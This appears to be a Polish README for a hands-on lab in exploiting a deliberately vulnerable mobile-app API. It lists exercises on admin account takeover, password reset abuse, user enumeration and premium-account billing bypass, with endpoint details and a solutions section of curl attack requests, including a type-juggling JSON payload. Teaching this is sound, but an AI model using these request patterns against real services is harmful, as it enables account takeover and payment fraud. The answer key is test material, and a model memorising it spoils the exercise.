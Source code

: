 # bawim
## Analiza oraz wykorzystanie podatności w zapytaniach HTTP pomiędzy aplikacją mobilną i API
Instalacja nie jest wymagana, API znajduje się pod adresem https://bawim.tk.  
Do wysyłania zapytań najlepiej użyć narzędzia curl lub serwisu https://postman.co.

## Zadania
[przykładowe] 0. Znajdź wersję aplikacji.  
curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/get_app_version

1. Znajdź ID konta 'admin', a następnie klucz przypisany do konta.
2. Przy użyciu znalezionego klucza wypisz szczegółowe informacje o koncie 'admin'.
3. Zresetuj hasło admina, znając kod funkcji weryfikującej token.  
![alt text](https://github.com/matih123/bawim/blob/master/verify.png)  
4. Zaloguj się na konto admina (podaj id sesji).  
5. Znajdź użytkownika, który ma na koncie $1.000.000.  
podpowiedź: napisz prosty skrypt np. w pythonie (moduł requests).  
![alt text](https://github.com/matih123/bawim/blob/master/requests.png)  
6. Ustaw typ konta na premium dowolnemu użytkownikowi.  
podpowiedź: https://youtu.be/MpeaSNERwQA.

## Lista endpointów API

Wszystkie endpointy działają w oparciu o metodę POST oraz wymagają uwierzytelnienia kluczem globalnym (-d key=Re2LPGUMEKa34ik1uhHOBMoc). 

* https://bawim.tk/get_app_version  
parametry: key   
* https://bawim.tk/user/{user_id}  
parametry: key  
* https://bawim.tk/user_data/{user_id}  
parametry: key, user_key  
* https://bawim.tk/login/{username}  
parametry: key, password  
* https://bawim.tk/reset_password/{user_id}  
parametry: key  
* https://bawim.tk/set_password/{user_id}/{token}  
parametry: key, new_password  
* https://bawim.tk/set_premium_account/{user_id}  
parametry: key, billing_token, json - ten endpoint obsługuje dane wejściowe w formacie json (-d json={json_string})  

## Rozwiązania
<details>
  <summary>Pokaż</summary>
  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/login/admin  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/user/386
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d user_key=AnbgzkuaayRdT4HIab8lV513 https://bawim.tk/user_data/386
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/reset_password/386
  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d json={\"billing_token\":[]} http://bawim.tk/set_premium_account/200
  
  
</details>
